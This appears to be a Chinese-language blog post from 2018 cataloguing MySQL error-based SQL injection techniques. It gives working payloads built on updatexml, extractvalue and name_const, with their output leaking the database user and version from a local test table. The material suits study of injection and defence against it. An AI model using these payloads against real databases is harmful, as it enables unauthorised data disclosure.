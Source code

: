 ```yaml
---
layout: post
title:  "SQL回显注入和报错注入"
date:   2018-01-06 21:41:45 +0800
categories: [SQL, 回显注入, 报错注入]
---
```

#Sql注入之报错注入

>本来在上一篇文章中本来说了要把报错注入和出错的原因写完的，但是想了下大多数的报错并不像双查询报错那样原理复杂，很多只是函数的问题，所以这一篇就单纯的作为报错的备忘录，稍带原理

1.**Updatexml报错**
```mysql
mysql> help updatexml
Name: 'UPDATEXML'
Description:
Syntax:
UpdateXML(xml_target, xpath_expr, new_xml)

This function replaces a single portion of a given fragment of XML
markup xml_target with a new XML fragment new_xml, and then returns the
changed XML. The portion of xml_target that is replaced matches an
XPath expression xpath_expr supplied by the user.

If no expression matching xpath_expr is found, or if multiple matches
are found, the function returns the original xml_target XML fragment.
All three arguments should be strings.

URL: http://dev.mysql.com/doc/refman/5.7/en/xml-functions.html

Examples:
mysql> SELECT
    ->   UpdateXML('<a><b>ccc</b><d></d></a>', '/a', '<e>fff</e>') AS val1,
    ->   UpdateXML('<a><b>ccc</b><d></d></a>', '/b', '<e>fff</e>') AS val2,
    ->   UpdateXML('<a><b>ccc</b><d></d></a>', '//b', '<e>fff</e>') AS val3,
    ->   UpdateXML('<a><b>ccc</b><d></d></a>', '/a/d', '<e>fff</e>') AS val4,
    ->   UpdateXML('<a><d></d><b>ccc</b><d></d></a>', '/a/d', '<e>fff</e>') AS val5
    -> \G

*************************** 1. row ***************************
val1: <e>fff</e>
val2: <a><b>ccc</b><d></d></a>
val3: <a><e>fff</e><d></d></a>
val4: <a><b>ccc</b><e>fff</e></a>
val5: <a><d></d><b>ccc</b><d></d></a>
```
可见函数要求第二个参数为xpath格式的字符串，否则就爆出符号错误
```mysql
mysql> select * from users where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));
ERROR 1105 (HY000): XPATH syntax error: '~root@localhost~'
```
2 . **Extractvalue报错**
这个函数和updatexml一样，都是对xml格式数据进行操作，第二个参数也为xpath格式字符串，具体可以help
```mysql
mysql> select * from users where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));
ERROR 1105 (HY000): XPATH syntax error: '~root@localhost~'
```
3 . **Name_const报错**
首先在这里补一个背景知识
1. 在4.1版本后的mysql中支持subquery：也就是一个查询的结果可以作为另一个查询的from对象，可以说是像这样（select * from(select * from a)x）嵌套查询，这里的x是as x的意思也就是alias，子查询需要alias成一个符号才不会报错

ok，先来看看name_cast的help文档
```mysql
mysql> help name_const
Name: 'NAME_CONST'
Description:
Syntax:
NAME_CONST(name,value)

Returns the given value. When used to produce a result set column,
NAME_CONST() causes the column to have the given name. The arguments
should be constants.

mysql> SELECT NAME_CONST('myname', 14);
+--------+
| myname |
+--------+
|     14 |
+--------+

URL: http://dev.mysql.com/doc/refman/5.7/en/miscellaneous-functions.html
```
这是根据name和value生成一个column的函数，结合前面的背景知识我们可以试图构造出和双查询类似的具有相同key值的错误，不过可惜这个利用在高版本中被要求为constants，不然就会先报这个错误，等于是加了个检测，但是在下面的测试中我发现有意外
```mysql
mysql> select * from users where id=1 and (select * from (select name_const(version(),1),name_const(version(),1))a);
ERROR 1060 (42S21): Duplicate column name '5.7.17'
mysql> select * from users where id=1 and (select * from (select name_const(database(),1),name_const(database(),1))a);
ERROR 1210 (HY000): Incorrect arguments to NAME_CONST
mysql> select * from users where id=1 and (select * from (select name_const((select 1),1),name_const((select 1),1))a);
ERROR 1210 (HY000): Incorrect arguments to NAME_CONST
```
发现了吧 version()还是可以爆出来的...

还有一些网上写的函数发现本地没有爆出来，就暂时不写上来了，下一篇盲注